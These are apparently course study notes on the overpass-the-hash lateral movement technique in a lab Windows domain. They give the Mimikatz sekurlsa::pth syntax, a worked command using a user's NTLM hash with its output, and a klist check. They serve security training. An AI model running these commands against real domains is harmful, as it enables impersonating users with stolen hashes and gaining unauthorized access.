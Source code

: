 The essence of the overpass the hash lateral movement technique is to turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication
+ A simple way to do this is with the **`sekurlsa::pth`** command from Mimikatz:
+ The command requires a few arguments and creates a new PowerShell process in the context of _jen_
+ This new PowerShell prompt will allow us to obtain Kerberos tickets without performing NTLM authentication over the network, making this attack different than a traditional pass-the-hash

As the first argument, we specify **/user:** and **/domain:**, setting them to **jen** and **corp.com** respectively
+ We'll specify the NTLM hash with **/ntlm:** and finally, use **/run:** to specify the process to create (in this case, PowerShell)
+ Usage in Mimikatz:
```
sekurlsa::pth /user:<USER> /domain:<DONMAIN> /ntlm:<HASH> /run:<COMMAND>
```
+ Example:
```
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell 
user    : jen
domain  : corp.com
program : powershell
impers. : no
NTLM    : 369def79d8372408bf6e93364cc93075
  |  PID  8716
  |  TID  8348
  |  LSA Process is now R/W
  |  LUID 0 ; 16534348 (00000000:00fc4b4c)
  \_ msv1_0   - data copy @ 000001F3D5C69330 : OK !
  \_ kerberos - data copy @ 000001F3D5D366C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F3D5C63B68 (32) -> null
```

At this point, we have a new PowerShell session that allows us to execute commands as _jen_
+ At this point, running the _whoami_ command on the newly created PowerShell session would show _jeff_'s identity instead of _jen_
+ While this could be confusing, this is the intended behavior of the _whoami_ utility which only checks the current process's token and it does not inspect any imported kerberos tickets

Let's list the cached Kerberos tickets with **klist**:
```
klist
```
+ Example output:
```
PS C:\Windows\system32> klist

Current LogonId is 0:0x1583ae

Cached Tickets: (0)
```
